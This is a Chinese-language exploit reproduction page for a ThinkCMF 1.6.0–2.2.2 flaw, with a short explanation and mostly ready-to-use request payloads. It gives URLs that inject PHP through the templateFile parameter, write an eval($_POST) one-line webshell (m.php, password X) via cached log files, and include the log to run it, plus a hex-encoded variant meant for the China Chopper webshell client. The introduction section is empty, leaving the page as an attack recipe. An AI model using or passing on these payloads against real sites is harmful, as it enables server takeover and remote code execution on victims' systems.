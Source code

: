 ThinkCMF 缓存Getshell
=====================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF X1.6.0ThinkCMF X2.1.0ThinkCMF X2.2.0ThinkCMF X2.2.1ThinkCMF X2.2.2

三、复现过程
------------

### 常规操作

    http://www.0-sec.org/index.php?a=display&templateFile=README.md&content=%3C?php%20phpinfo();die();

![](resource/ThinkCMF缓存Getshell/media/rId25.png)

利用缓存文件getshell
--------------------

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY\_MM\_DD.log，如当前日期为2019年12月12日，日志文件为19\_12\_12.log，完整路径为

    data/runtime/Logs/Portal/19_12_12.log

**payload 一**

-   首先访问

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E

-   然后请求

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log

-   即可在http://www.0-sec.org/根目录生成m.php，密码是X

**payload 二**

-   首先访问

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E

-   然后菜刀链接（密码也是x）

```{=html}
<!-- -->
```
    http://www.0-sec.org/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
